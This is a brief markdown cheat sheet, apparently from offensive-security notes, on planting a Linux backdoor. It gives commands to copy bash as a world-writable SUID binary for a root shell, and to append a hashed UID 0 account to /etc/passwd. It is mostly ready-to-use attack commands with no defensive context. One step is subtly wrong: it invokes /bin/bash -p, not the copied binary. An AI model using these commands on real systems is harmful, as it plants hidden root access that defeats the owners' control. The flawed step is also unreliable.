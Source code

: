 # Backdoor

## Priv esc - SUID

> As root

```bash
cp /bin/bash .
chmod 4777 bash
```

> As a user

```bash
/bin/bash -p
```

## Add to passwd

Create password with slat:

```bash
openssl passwd -1 -salt SALT PASSWORD
```

Add user:

```bash
echo 'USERNAME:$1$SALT$HASH:0:0:Description:/root:/bin/bash' >> /etc/passwd
```
